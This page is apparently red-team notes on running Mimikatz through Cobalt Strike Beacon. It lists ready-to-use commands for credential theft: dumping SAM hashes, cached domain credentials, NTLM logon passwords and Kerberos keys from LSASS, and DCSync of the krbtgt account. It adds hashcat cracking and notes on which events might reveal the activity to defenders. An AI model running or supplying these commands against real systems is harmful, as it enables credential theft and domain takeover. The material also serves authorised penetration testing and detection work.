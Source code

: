 # MimiKatz



## Cobalt Strike + MimiKatz

Cobalt Strike's built in Mimikatz executes each new mimikatz command in a new temporary process, which is then destroyed after it finishes. Because of this, we will need to chain our mimikatz commands.

```powershell
beacon> mimikatz token::elevate ; lsadump::sam
```

### Modifier Keys

#### !

In most cases, `!` is a direct replacement for `token::elevate`. For example:

```
beacon> mimikatz !lsadump::sam
```

#### @

The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

```
beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
```



### Dumping Security Account Manager (SAM)

```powershell
beacon> mimikatz !lsadump::sam
```

<mark style="color:red;">**Note**</mark>: This opens a handle to the SAM registry Hive. "Suspicious SAM Hive Handle".

### Dumping Cached Domain Credentials (DCC)

```powershell
beacon> mimikatz !lsadump::cache
```

We can crack the hashes with [hashcat](https://github.com/hashcat/hashcat). Example hashes can be found [here](https://hashcat.net/wiki/doku.php?id=example\_hashes).

<mark style="color:red;">**Note**</mark>: This handle to the SECURITY registry hive. Use the "Suspicious SECURITY Hive Handle".

###

### Dumping NTLM Hashes

```powershell
beacon> mimikatz !sekurlsa::logonpasswords
```

<mark style="color:red;">**Note**</mark>: Mimikatz's **logonpasswords** module will open a read handle to LSASS, which is logged under the winevent 4656. "Suspicious Handle to LSASS". Use this cautiously, and only if needed.

### Dumping Kerberos Encryption Keys

```powershell
beacon> mimikatz !sekurlsa::ekeys
```

<mark style="color:red;">**Note**</mark>: This module also opens a read handle to LSASS.
